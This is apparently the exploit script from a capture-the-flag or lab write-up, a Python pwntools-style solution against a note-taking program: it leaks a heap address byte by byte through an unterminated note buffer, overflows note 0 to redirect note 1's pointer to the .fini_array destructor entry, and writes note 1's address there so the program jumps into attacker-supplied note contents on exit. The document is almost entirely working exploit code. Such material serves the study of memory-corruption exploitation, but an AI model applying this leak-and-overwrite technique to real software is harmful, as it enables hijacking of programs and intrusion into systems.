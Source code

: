 ```python
p.readuntil("> ")

buff = "A"
leaked = b""
leaking = False
fini_addr = 0x804a260
welcome_addr = 0x0804874c
note1_addr = 0
padding = 0
testing_fini_overwrite = False

while True:
    p.sendline(b"set")
    p.readuntil("> id: ")
    p.sendline(b"0")
    p.readuntil("> text(32 max):")
    p.sendline(buff.encode())
    p.readuntil("[*] Note 0 set")
    p.readuntil("> ")
    p.sendline(b"show")
    p.readuntil("> id: ")
    p.sendline(b"0")
    line = p.readuntil("> ").split(b"[*] Note 0 text: ")[1][:-3]
    if not leaking:
        if b"@" in line:
            leaking = True
            leaked += b"@"
            padding = len(buff)
    else:
        leaked += line[len(buff):][:1] or b"\x00"
        if len(leaked) >= 8:
            note1_addr = unpack("<I", leaked[4:8])[0]
            print(f"Note #1 addr: 0x{note1_addr:08x}")
            break
    buff += "A"

p.sendline(b"set")
p.readuntil("> id: ")
p.sendline(b"0")
p.readuntil("> text(32 max):")
# Set note #1 buffer address to __do_global_dtors_aux_fini_array_entry
p.sendline(b"A"*padding + b"BBBB" + pack("<I", fini_addr))
p.readuntil("[*] Note 0 set")
p.readuntil("> ")

p.sendline(b"set")
p.readuntil("> id: ")
p.sendline(b"1")
p.readuntil("> text(32 max):")

if testing_fini_overwrite:
    # Put welcome function address as destructor
    p.sendline(pack("<I", welcome_addr))
    p.readuntil("[*] Note 1 set")
    p.readuntil("> ")
    p.sendline(b"exit")
    print(p.readall().decode())
else:
    # The real thing, destructor will launch what's inside out note #1                                               
    p.sendline(pack("<I", note1_addr))
    p.readuntil("[*] Note 1 set")
    p.readuntil("> ")
```
